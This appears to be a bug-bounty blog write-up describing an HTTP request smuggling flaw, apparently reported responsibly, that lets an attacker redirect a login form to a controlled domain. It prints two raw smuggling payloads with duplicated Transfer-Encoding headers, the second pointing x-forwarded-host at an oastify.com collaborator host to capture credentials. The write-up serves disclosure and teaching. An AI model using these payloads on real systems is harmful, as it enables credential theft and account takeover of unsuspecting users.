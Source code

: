 # Stealing Login Credentails using HTTP Request Smuggling

### Introduction

In this blog post, I will discuss a significant security vulnerability I discovered in a specific target. The vulnerability, called HTTP request smuggling, provided me with the ability to manipulate the application's behavior, potentially compromising user credentials. I responsibly reported this vulnerability to the application's development team, who took appropriate measures to address it. In this write-up, I will explain the nature of the vulnerability, its impact, and the steps taken for responsible disclosure.

## Description

The vulnerability I found in the target is an instance of HTTP request smuggling. It arises when an attacker can manipulate the application's interpretation of HTTP requests, leading to behaviors that differ from the intended ones. By exploiting this vulnerability, an attacker could gain unauthorized access to user credentials, potentially compromising their accounts.

### Confirmation of Vulnerability

To confirm the presence of the vulnerability, I crafted a malicious HTTP request using the following payload:

`
POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /robots.txt HTTP/1.1
X-Ignore: X
`

Instead of the expected response of "302," the application returned a "404" status code, indicating that the vulnerability was present.

![Screenshot 2023-05-16 at 12.07.05 PM(1).jpg](images/1.jpg)

### Exploiting the Vulnerability

Further investigation using param-miner extension revealed that the application accepts the **x-forwarded-for** header, which allowed me to manipulate the "Host" value in the response. With this information, I crafted a second request to redirect the base URL of the login form to a controlled domain, as demonstrated by the following payload:

`
POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Content-Type: application/x-www-form-urlencoded
Content-Length: 421
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /ENDPOINT HTTP/1.1
x-forwarded-host: gbvun9lgwxse701bwnjfn68snjtah25r.oastify.com
X-Ignore: X
`

This manipulation changed the base URL of the login request form to a malicious domain, allowing an attacker to intercept user credentials.

![Screenshot 2023-05-22 at 9.27.15 PM.png](images/2.png)

### Potential Impact

The impact of this vulnerability is severe. When a legitimate user logs in to the affected application, their credentials are unknowingly sent to the malicious domain controlled by the attacker. This could lead to unauthorized access, account takeover, or further compromise of sensitive data.